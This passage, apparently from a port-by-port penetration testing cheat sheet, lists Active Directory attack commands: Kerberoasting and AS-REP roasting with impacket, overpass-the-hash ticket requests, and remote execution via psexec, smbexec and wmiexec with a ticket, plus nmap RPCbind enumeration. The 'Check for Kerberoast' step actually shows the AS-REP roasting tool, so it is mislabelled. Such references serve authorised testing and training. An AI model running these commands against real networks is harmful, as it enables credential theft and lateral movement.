 [Conda's AS-REP Roasting Video](https://www.youtube.com/watch?v=EVdwnBFtUtQ\&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT\&index=4)
{% endtab %}

{% tab title="Kerberoast" %}
Check for Kerberoast

```
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john
```

Kerberoast Attack

```
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 
```
{% endtab %}

{% tab title="OverPTH" %}
### Overpass the hash/Pass-the-key

```
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]
```
{% endtab %}

{% tab title="Cmds w/ TGT" %}
```
python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
{% endtab %}
{% endtabs %}

{% content-ref url="active-directory.md" %}
[active-directory.md](active-directory.md)
{% endcontent-ref %}

## 110 - Pop3

Just telnet it.

## 111 - RPCbind or Portmapper

{% tabs %}
{% tab title="Enumeration" %}
Nmap scripts

```
# nmap -sV -p 111 --script=rpcinfo [target]
# nmap -p 111 --script nfs* [target]
```
